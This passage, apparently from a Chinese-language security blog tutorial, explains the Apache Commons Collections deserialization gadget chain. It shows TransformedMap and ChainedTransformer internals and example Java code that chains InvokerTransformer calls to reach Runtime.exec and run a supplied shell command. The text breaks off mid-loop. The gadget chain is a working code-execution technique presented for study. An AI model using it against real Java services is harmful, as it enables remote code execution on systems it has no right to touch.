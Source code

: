 而 `TransformedMap` 实现了 `Map` 接口，而在对字典键值进行 `setValue()` 操作时会调用 `valueTransformer.transform(value)`。

{% highlight java %}
...省略...
        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
{% endhighlight %}

好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个 `InvokerTransformer` 实例级联在一起组成一个 `ChainedTransformer` 对象，在其调用的时候会进行一个级联 `transform()` 调用：

{% highlight java %}
public class ChainedTransformer implements Transformer, Serializable {
...省略...
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
{% endhighlight %}

现在已经可以造出一个 `TransformedMap` 实例，在对字典键值进行 `setValue()` 操作时候调我们构造的 `ChainedTransformer`，下面给出示例代码：

{% highlight java %}
package exserial.examples;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class SetValueToExec {

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
        String[] execArgs = command.split(",");

        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap<String, Object>();
        Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        exMap.put("1111", "2222");
        for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) {